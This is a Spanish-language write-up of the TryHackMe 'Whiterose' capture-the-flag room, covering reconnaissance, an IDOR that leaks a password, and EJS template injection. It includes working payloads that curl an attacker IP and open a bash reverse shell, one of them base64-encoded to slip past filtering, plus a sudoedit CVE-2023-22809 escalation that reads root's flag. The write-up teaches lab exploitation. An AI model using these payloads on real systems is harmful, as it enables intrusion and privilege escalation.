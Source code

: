 *****

![Imagen1](attachments/Pasted%20image%2020250203213856.png) 

#easy #IDOR #SSTI #RCE #CVE-2023-22809

******

Al unirnos al room de THM nos dan un username y password que será importantes tenerlos en cuenta:

~~~bash
username: Olivia Cortez
password: olivi8
~~~


Realizamos un escaneo con **Nmap** para poder observar los servicios que usan:

~~~bash
sudo nmap -sS --min-rate 5000 --open -vv -p- -n -Pn whiterose.thm
~~~

![imagen2](<attachments/Pasted%20image%2020250203214511.png>)

Como podemos ver, tienen el `22` y `80` abiertos. Al ingresar a la pagina web esta nos redirige a otra:

`cyprusbank.thm`

![image3](<attachments/Pasted%20image%2020250203214630.png>)

Pasamos a realizar un fuzzing de directorios con gobuster, pero no nos muestra nada interesante.

~~~bash
gobuster dir -u 'http://cyprusbank.thm/' -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
~~~

Con ffuf realizamos fuzzing de subdominios y vemos que nos dan 2 subdominios:

`www.cyprusbank.thm` `admin.cyprusbank.thm`

~~~bash
ffuf -u 'http://cyprusbank.thm/' -H "Host: FUZZ.cyprusbank.thm" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -fw 1
~~~

![alt text](<attachments/Pasted%20image%2020250203215214.png>)

>[!note]
>`-fw` nos ayuda a descartar falsos positivos en el fuzzing


`www.cyprusbank.thm` no hay nada, sin embargo en `admin.cyprusbank.thm` nos muestra un login donde podemos intentar poner las credenciales del inicio.


![alt text](<attachments/Pasted%20image%2020250203215438.png>)

Al ingresar con la cuenta de Olivia podemos ver varias cosas interesantes y donde podemos encontrar una de las primeras flag del room.

![alt text](<attachments/Pasted%20image%2020250203220037.png>)

No podemos ingresar a settings, al parecer no tenemos privilegios.

![alt text](<attachments/Pasted%20image%2020250203220137.png>)

Pero en mensajes podemos ver algo que me resulto interesante:

![alt text](<attachments/Pasted%20image%2020250203220242.png>)

En la url podemos ver `c=5` y al cambiar los valores encontramos un IDOR que nos deja observar otros mensajes:

![alt text](<attachments/Pasted%20image%2020250203220405.png>)

Al explorarlo mas al fondo, damos con una conversación donde el user `Gayle Bev` escribe su password `p~]P@5!6;rs558:q`, y al ingresar con su sesión podemos obtener la primera flag.

*****

Una vez iniciado la sesión de `Gayle Bev` podemos ingresar al apartado de de settings de la web page. En esta podemos actualizar passwords de usuarios:

![alt text](<attachments/Pasted%20image%2020250203221334.png>)

Al revisar la solicitud con Burpsuite podemos modificar varios puntos para checar la posibilidad de XSS o SSTI. Interceptamos la request y omitimos el passwords y podemos ver que nos contesta con el siguiente error:

![alt text](attachments/image5.png)

En este mensaje podemos observar que están usando `.ejs` (Embedded JavaScript templates), lo que indica que el servidor renderiza plantillas dinámicas. Dado que `.ejs` es vulnerable a **Server-Side Template Injection (SSTI)** si no se maneja correctamente la entrada del usuario, podemos buscar payloads específicos para explotar este tipo de vulnerabilidad en `ejs` y evaluar si es posible ejecutar código en el servidor.

~~~javascript
%%1");process.mainModule.require('child_process').execSync('calc');//
~~~

https://github.com/mde/ejs/issues/720

Modificamos el payload para realizar un curl a nuestro Python server.

~~~js
name=a&password&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl http://10.8.27.189:6666');//
~~~

![alt text](attachments/7.png)

![alt text](attachments/image8.png)

Con esto confirmamos que es un **SSTI**, ahora podemos intentar para explotar una RCE, para esto podemos crear un reverse Shell (https://www.revshells.com/):

![alt text](attachments/image9.png)

Modificamos nuestro payload para que ejecute la reverse:

~~~js
name=a&password&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -i >& /dev/tcp/10.8.27.189/6666 0>&1');//
~~~

Pero al parecer nos esta filtrando la request, entonces aquí podemos encodearlo en base64 para intentar pasarlo.

~~~js
name=a&password=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -c "echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjguMjcuMTg5LzY2NjYgMDA+JjE= | base64 -d | bash"');//  
~~~

![alt text](attachments/image10.png)

![alt text](attachments/image11.png)

Listo, tenemos acceso a la maquina donde podemos encontrar la siguiente flag, pero antes podemos mandar a llamar una Shell interactiva con python:

~~~python
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~

![alt text](attachments/image12.png)

******
Ahora para escalar privilegios podemos observar primero que podemos hacer con sudo:

~~~bash
sudo -l
~~~

Y aqui podemos ver algo que podemos explotar:

![alt text](attachments/image13.png)

Podemos checar la versión que usa `sudoedit` con `sudoedit -V` y podemos ver que usa la versión `1.9.12p1`

![alt text](attachments/image14.png)

Al investigar encontramos que existe un CVE para esta versión de `sudoedit`

~~~bash
CVE-2023-22809
~~~

Ahora con lo que encontramos acerca de esta CVE podemos cambiar la variable para que nos muestre la flag de root:

~~~bash
export EDITOR="vi -- /root/root.txt"
~~~

Ya solo queda ejecutar el comando que vimos al principio y aquí tendremos nuestra siguiente y ultima flag:

~~~bash
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
~~~

